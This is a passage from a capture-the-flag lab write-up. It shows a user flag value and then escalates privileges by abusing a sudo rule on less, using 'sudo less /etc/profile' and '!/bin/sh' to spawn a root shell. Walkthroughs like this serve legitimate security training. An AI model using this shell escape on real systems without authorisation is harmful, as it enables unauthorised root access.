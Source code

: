 <div align="center">
<img src="https://github.com/user-attachments/assets/352aee94-8ae1-424b-af60-e6522a9d08db" height=""></img>
</div>

### Here are 3 user, Let check hold directory.

<div align="center">
<img src="https://github.com/user-attachments/assets/a2482abb-5dcc-45f7-b988-cbcf1c951bbc" height=""></img>
</div>

## Here is the User-Flag.txt
```
ee11cbb19052e40b07aac0ca060c23ee
```
# 4. Let escalate our privileges
## Let's see if we can run any commands of root.
```
sudo -l
```

<div align="center">
<img src="https://github.com/user-attachments/assets/5b1e2262-b361-4360-8198-b070fbc67fb1" height=""></img>
</div>

## Ok we can run less command as root,Let visit gtfobin
### search for less.

<div align="center">
<img src="https://github.com/user-attachments/assets/6acaf07a-a153-47b0-b964-c43ab13726a1" height="400"></img>
</div>


### Here is for sudo:

<div align="center">
<img src="https://github.com/user-attachments/assets/e8fcbf20-d206-42b6-9e49-6c4ac7b77d35" height="400"></img>
</div>

```
sudo less /etc/profile
!/bin/sh
```
## Let Run in terminal

<div align="center">
<img src="https://github.com/user-attachments/assets/ecb057f8-16b9-4381-8648-fa88ffc973b3" height="400"></img>
</div>
